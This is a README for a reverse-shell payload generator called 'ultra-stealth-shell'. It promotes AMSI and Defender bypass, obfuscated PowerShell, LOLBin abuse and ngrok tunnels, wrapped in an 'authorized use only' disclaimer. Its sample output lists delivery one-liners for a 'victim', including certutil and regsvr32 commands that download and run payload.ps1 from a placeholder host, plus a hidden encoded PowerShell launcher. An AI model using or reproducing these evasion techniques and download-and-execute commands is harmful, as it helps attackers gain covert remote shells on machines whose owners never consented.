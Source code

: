 # ultra-stealth-shell
# 🐉 Ultra Stealth Reverse Shell Generator

An advanced, automated reverse shell payload generator built for **authorized red teaming and ethical hacking** engagements.  
It delivers highly evasive PowerShell payloads using:

- 🔐 AMSI Bypass
- 🔁 Base64 Obfuscation
- 🎭 LOLBins (`mshta`, `certutil`, `regsvr32`)
- 🧨 Self-deleting script stagers
- 🚇 Ngrok tunnels for internet delivery
- 🎯 Integrated Metasploit handler

---

## ⚠️ DISCLAIMER

> 🔒 **This tool is for educational use and legal penetration testing only.**  
> 🚫 Unauthorized access to systems you don't own or have explicit permission to test is **illegal**.  
> 🧠 The author is not responsible for any damage or misuse.  
> 🛡️ Use it only in labs, CTFs, or client-approved red team ops.

---

## 📦 Features

| Feature                         | Description |
|----------------------------------|-------------|
| ✅ **Ngrok Integration**         | For NAT/firewall bypass |
| ✅ **MSF Payload Generator**     | Uses `msfvenom` & `msfconsole` |
| ✅ **AMSI & Defender Bypass**   | Using `$amsiInitFailed` |
| ✅ **PowerShell Base64 Launcher** | One-liner payload execution |
| ✅ **LOLBins Support**          | Execute with `mshta`, `certutil`, `regsvr32` |
| ✅ **Auto HTTP Payload Hosting** | Auto-hosts payload via Python web server |
| ✅ **Self-Destruct Payload**     | Deletes after execution |

---

## 🔧 Requirements

Install the following tools (most are pre-installed in Kali Linux):

| Tool            | Install Command                      |
|-----------------|--------------------------------------|
| Python 3        | `sudo apt install python3`           |
| Metasploit      | `sudo apt install metasploit-framework` |
| Ngrok           | [https://ngrok.com/download](https://ngrok.com/download) |
| curl            | `sudo apt install curl`              |

---

## 🔐 Ngrok Setup

1. Go to [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup)
2. Create a free account and get your **auth token**
3. Authenticate Ngrok:


ngrok authtoken <your_ngrok_auth_token>

4. Test Ngrok:

ngrok tcp 4444

You should see something like:
tcp://0.tcp.ngrok.io:14233

Ngrok is now ready to be used by the script.

🚀 Usage
## 📦 Installation

```bash
git clone https://github.com/<your-username>/ultra-stealth-shell.git
cd ultra-stealth-shell
python3 ultra_stealth_shell.py
```
Output

🎯 STEALTH PAYLOADS READY — DELIVER ONE OF THESE TO TARGET:
======================================================================
[🔥 ENV Trick] Save and run payload_launcher.bat on victim
[🔥 Direct PowerShell] powershell -nop -w hidden -enc ...
[🔥 mshta (LOLBIN)] mshta.exe "javascript:..."
[🔥 certutil] certutil -urlcache -split -f http://x.x.x.x/payload.ps1 && ...
[🔥 regsvr32] regsvr32 /s /n /u /i:http://x.x.x.x/payload.ps1 scrobj.dll
======================================================================


